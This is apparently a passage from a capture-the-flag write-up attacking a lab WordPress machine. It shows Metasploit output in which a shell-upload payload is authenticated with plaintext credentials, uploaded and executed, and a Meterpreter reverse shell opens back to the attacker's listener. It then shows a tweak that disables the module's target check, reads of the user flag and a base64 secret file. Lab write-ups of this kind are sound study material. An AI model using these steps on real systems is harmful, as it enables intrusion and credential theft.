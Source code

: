 ```{r, engine='bash', count_lines}
[*] Started reverse TCP handler on 10.10.14.14:12345 
[*] Authenticating with WordPress using falaraki:Transclisiation...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/WhuJNFnCIq/lvZdVKBfRj.php...
[*] Sending stage (37514 bytes) to 10.10.10.46
[*] Meterpreter session 1 opened (10.10.14.14:12345 -> 10.10.10.46:48542) at 2017-11-02 18:31:26 -0400
[+] Deleted lvZdVKBfRj.php
[+] Deleted WhuJNFnCIq.php

meterpreter > 

```
If your exploit doesn't recognize the site as a wp site just uncomment the following line in the script:

```{r, engine='bash', count_lines}
gedit /usr/share/metasploit-framework/modules/exploits/unix/webapp/wp_admin_shell_upload.rb

  def exploit
    #fail_with(Failure::NotFound, 'The target does not appear to be using WordPress') unless wordpress_and_online?
```

Nice we got a meterpreter!

```{r, engine='bash', count_lines}
meterpreter > cat /home/falaraki/user.txt
9182d4d0b3f40307d86673193a9cd4e5
```

Alright we got the user flag. Let's see if we can get some more information about the system.

```{r, engine='bash', count_lines}
meterpreter > cd /home/falaraki
meterpreter > ls -la
Listing: /home/falaraki
=======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  516   fil   2017-07-27 07:09:24 -0400  .bash_history
100644/rw-r--r--  220   fil   2017-07-26 07:40:26 -0400  .bash_logout
100644/rw-r--r--  3771  fil   2017-07-26 07:40:26 -0400  .bashrc
40700/rwx------   4096  dir   2017-07-26 07:41:51 -0400  .cache
40775/rwxrwxr-x   4096  dir   2017-07-26 08:52:24 -0400  .nano
100644/rw-r--r--  655   fil   2017-07-26 07:40:26 -0400  .profile
100664/rw-rw-r--  109   fil   2017-07-26 12:29:37 -0400  .secret
100644/rw-r--r--  0     fil   2017-07-26 07:42:52 -0400  .sudo_as_admin_successful
100644/rw-r--r--  1024  fil   2017-07-27 04:17:59 -0400  .wp-config.php.swp
100664/rw-rw-r--  33    fil   2017-07-26 12:27:48 -0400  user.txt

meterpreter > cat .secret
S2VlcCBmb3JnZXR0aW5nIHBhc3N3b3JkIHNvIHRoaXMgd2lsbCBrZWVwIGl0IHNhZmUhDQpZMHVBSU50RzM3VGlOZ1RIIXNVemVyc1A0c3M=
```
This looks like base64
